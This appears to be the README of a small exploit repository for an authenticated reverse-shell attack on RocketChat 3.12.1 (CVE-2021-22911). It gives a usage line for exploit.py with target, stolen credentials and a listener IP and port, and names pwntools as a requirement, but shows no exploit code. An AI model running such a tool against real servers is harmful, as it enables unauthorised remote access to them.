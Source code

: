 # Authenticated RocketChat 3.12.1 Reverse-Shell - CVE-2021-22911
Authenticated RocketChat 3.12.1 Reverse Shell - CVE-2021-22911

Based On: https://github.com/CsEnox/CVE-2021-22911

Quick exploit to get a reverse shell if credentials were adquired.

<br>

Usage: python3 exploit.py -t \<TARGET URL\> -u \<USERNAME\> -p \<PASSWORD\> -i \<LOCAL IP\> -l \<LOCAL PORT\>
  
Requirements: This exploit uses pwntools > pip install pwn

